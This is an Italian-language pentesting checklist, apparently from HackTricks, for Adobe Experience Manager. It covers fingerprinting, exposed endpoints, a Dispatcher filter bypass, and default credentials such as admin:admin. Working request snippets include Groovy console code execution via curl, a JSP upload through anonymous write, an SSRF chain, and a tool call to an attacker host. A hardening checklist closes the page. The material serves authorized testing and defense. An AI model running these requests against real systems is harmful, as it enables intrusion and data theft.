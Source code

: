 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, parte di Adobe Experience Cloud) è un CMS aziendale che funziona su Apache Sling/Felix (OSGi) e un Java Content Repository (JCR).
> Dal punto di vista di un attaccante, le istanze AEM espongono molto spesso endpoint di sviluppo pericolosi, regole del Dispatcher deboli, credenziali predefinite e un lungo elenco di CVE che vengono corretti ogni trimestre.

La checklist qui sotto si concentra sulla **superficie di attacco (unauth) raggiungibile esternamente** che continua a presentarsi in impegni reali (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Altri indicatori rapidi:
* `/etc.clientlibs/` percorso statico presente (restituisce JS/CSS).
* `/libs/granite/core/content/login.html` pagina di accesso con il banner “Adobe Experience Manager”.
* `</script><!--/* CQ */-->` commento in fondo all'HTML.

---

## 2. Endpoint non autenticati ad alto valore

Percorso | Cosa ottieni | Note
---- | ------------- | -----
`/.json`, `/.1.json` | Nodi JCR tramite **DefaultGetServlet** | Spesso bloccato, ma *Dispatcher bypass* (vedi sotto) funziona.
`/bin/querybuilder.json?path=/` | API QueryBuilder | Leak dell'albero delle pagine, percorsi interni, nomi utente.
`/system/console/status-*`, `/system/console/bundles` | Console OSGi/Felix | 403 per impostazione predefinita; se esposto e credenziali trovate ⇒ RCE di caricamento bundle.
`/crx/packmgr/index.jsp` | Package Manager | Consente pacchetti di contenuto autenticati → caricamento di payload JSP.
`/etc/groovyconsole/**` | AEM Groovy Console | Se esposto → esecuzione arbitraria di Groovy / Java.
`/libs/cq/AuditlogSearchServlet.json` | Log di audit | Divulgazione di informazioni.
`/libs/cq/ui/content/dumplibs.html` | Dump ClientLibs | Vettore XSS.

### Trucco di bypass del Dispatcher
La maggior parte dei siti di produzione si trova dietro il *Dispatcher* (reverse-proxy). Le sue regole di filtro possono essere bypassate aggiungendo un'estensione statica consentita **dopo un punto e virgola o una nuova riga codificata**:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
Una singola richiesta come sopra rivela frequentemente nodi del profilo utente con indirizzi email. P-T Partners ha pubblicato buone indicazioni su questa vulnerabilità. 【】

---

## 3. Configurazioni errate comuni (ancora attive nel 2025)

1. **Servlet POST anonimo** – `POST /.json` con `:operation=import` consente di piantare nuovi nodi JCR. Bloccare `*.json` POST nel Dispatcher risolve il problema. 【】
2. **Profili utente leggibili da tutti** – ACL predefinito concede `jcr:read` su `/home/users/**/profile/*` a tutti.
3. **Credenziali predefinite** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** abilitato ⇒ XSS riflesso tramite `?debug=layout` (CVE-2016-7882, ancora trovato su installazioni legacy 6.4).
5. **Groovy Console esposta** – esecuzione di codice remoto inviando uno script Groovy:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Vulnerabilità recenti (cadenza del service pack)

Trimestre | CVE | Affetti | Impatto
------- | --- | -------- | ------
Dic 2024 | **CVE-2024-43711** | 6.5.21 e precedenti | Validazione dell'input non corretta → **Esecuzione di codice arbitrario** (richiede autenticazione a bassa privilegio). 【】
Dic 2024 | CVE-2024-43724/26 | 6.5.21 e precedenti | DOM / XSS memorizzato in Move Page Wizard. 【】
Dic 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | XSS basato su DOM tramite URL creato. 【】
Dic 2022 | CVE-2022-30683 | ≤ 6.5.13 | Difetto di design crittografico → decrittazione segreta (richiede credenziali a bassa privilegio). 【】

Controlla sempre il bollettino *APSB* corrispondente al service pack del cliente e richiedi l'ultima **6.5.22** o *Cloud Service 2024.11*.

---

## 5. Frammenti di sfruttamento

### 5.1 RCE tramite bypass del dispatcher + upload JSP
Se la scrittura anonima è possibile:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Richiedi `/content/evil.jsp` – il JSP viene eseguito con l'utente del processo AEM.

### 5.2 SSRF a RCE (storico < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py` di **aem-hacker** automatizza l'intera catena. 【】

---

## 6. Strumenti

* **aem-hacker** – script di enumerazione tipo coltellino svizzero, supporta bypass del dispatcher, rilevamento SSRF, controlli delle credenziali predefinite e altro.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – richiedi ricorsivamente `/_jcr_content.(json|html)` per scoprire componenti nascosti.
* **osgi-infect** – carica un bundle OSGi malevolo tramite `/system/console/bundles` se le credenziali sono disponibili.

---

## 7. Lista di controllo per il rafforzamento (per le raccomandazioni del tuo rapporto)

1. Mantieni l'istanza sulla **versione cumulativa di servizio più recente** (a partire da luglio 2025: 6.5.22).
2. Rimuovi ruota gli account predefiniti; applica SSO/SAML.
3. Rendi più rigorosi i **filtri del Dispatcher** – nega `;`, nuove righe codificate e `*.json` o `*.querybuilder.json` per utenti anonimi.
4. Disabilita o proteggi le console (`/system/console`, `/crx/*`, `/etc/groovyconsole`) con liste di autorizzazione IP.
5. Applica il pacchetto *Anonymous Permission Hardening* fornito da Adobe.

## Riferimenti

* Adobe Security Bulletin APSB24-69 – “Aggiornamenti di sicurezza per Adobe Experience Manager (dic 2024)”.
* 0ang3el – strumento aem-hacker (GitHub).
{{#include ../../banners/hacktricks-training.md}}

